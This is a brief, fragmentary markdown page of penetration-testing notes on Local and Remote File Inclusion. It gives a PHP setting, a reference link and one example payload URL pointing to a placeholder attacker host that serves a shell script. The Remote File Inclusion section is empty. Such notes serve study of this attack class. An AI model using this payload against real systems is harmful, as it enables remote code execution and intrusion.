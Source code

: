 # Manual

## Local File Inclusion (LFI)

### Conditions

```
allow_url_include = Off
```


```
http://<attacker_IP>/shell.php
```

## Remote File Inclusion (RFI)



## References

- [Local File Inclusion Code Execution](https://resources.infosecinstitute.com/topic/local-file-inclusion-code-execution/)